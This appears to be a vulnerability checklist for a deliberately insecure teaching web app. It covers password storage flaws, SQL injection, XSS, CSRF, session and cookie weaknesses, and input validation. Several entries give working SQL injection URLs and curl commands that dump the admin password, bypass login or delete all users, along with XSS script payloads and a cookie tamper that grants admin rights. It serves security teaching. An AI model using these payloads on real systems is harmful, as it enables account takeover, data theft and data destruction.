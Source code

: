 #Vulnerabilities in the webapp
##Secure password storage


- [x] The password is not salted to prevent parallell attack and precomputated/rainbow tables.
- [x] The password is not hashed iteratively with bcrypt/scrypt/PBKDF2.
- [x] Need better password policy. Short passwords must be disallowed.
- [x] Password leak in HTML comment on show user page
	- `http://localhost:8080/user/<username>`
- [x] Password input field should be type=password.


##SQL injections


- [x] Show user 
	`http://localhost:8080/user/-1%27%20union%20all%20select%201,pass,3,4,5,6,%207%20from%20users%20where%20user=%27admin%27--%20-`
- [x] Bypass login form http://localhost:8080/login</p>
	`curl -v localhost:8080/login --data "pass=pwned&amp;user=foobar' UNION ALL SELECT -1,-1,'5e93de3efa544e85dcd6311732d28f95',-1,-1,-1,-1-- -"`
- [x] Admin user delete. Drop all users with
		`http://localhost:8080/admin/delete/foobar' or 1=1-- -`
- [x] Adding a movie review.
- [x] Edit user form.


##XSS

- [x] Reflected on, show user 
	`http://localhost:8080/user/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`
(latest chromium's XSS auditor actually blocks this)
- [x] Reflected on logout message
	- `http://localhost:8080/?msg=aa%3Cscript%3Ealert%287%29%3C/script%3E`
- [x] Reflected on create user form on username field.
- [x] Persistent on show user. Email, bio and age. `http://localhost:8080/user/<username>`
- [x] Reflected on admin delete user page `http://localhost:8080/admin/delete/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`


##CSRF

- [ ] Login form
- [ ] Edit user form
- [ ] Logout link `http://localhost.no:8080/logout`
- [ ] Create user form
- [ ] Delete user `http://localhost:8080/admin/delete/bob`
- [ ] Add movie review `http://localhost:8080/movies/8`

##Authentication mechanisms

- [ ] Session id in cookie is not regenerated after login to prevent session fixation
- [ ] Timing attack on the hash comparison because equals operator is used.
- [ ] Cookie tampering allows normal users to become admin. On http://localhost:8080/admin with
	- `document.cookie='isadmin=yes'`;
- [ ] Missing access control on the actual delete on `http://localhost:8080/admin/delete/<username>`


##Data validation

- [ ] Username can be arbitrarily long.
	- `a=$(php -r 'print str_repeat("A", 1000);')
	curl 'http://localhost:8080/user/new' --data "user=$a&amp;pass=&amp;submit=Create+new+user"`


#General other stuff

- [ ] The webapp should be served entirely over TLS. All requests towards HTTP should redirect to HTTPS. HSTS and secure cookie flag should be on. This requires additional hassle with configuration so students do not have to actually configure TLS. But it should be mentioned.
- [ ] Missing throttling and IP bans on excessive requests towards forms.
- [ ] The Slim debug variable should be set to false to minimize leakage of useful info, (e.g. system paths and technology stack).
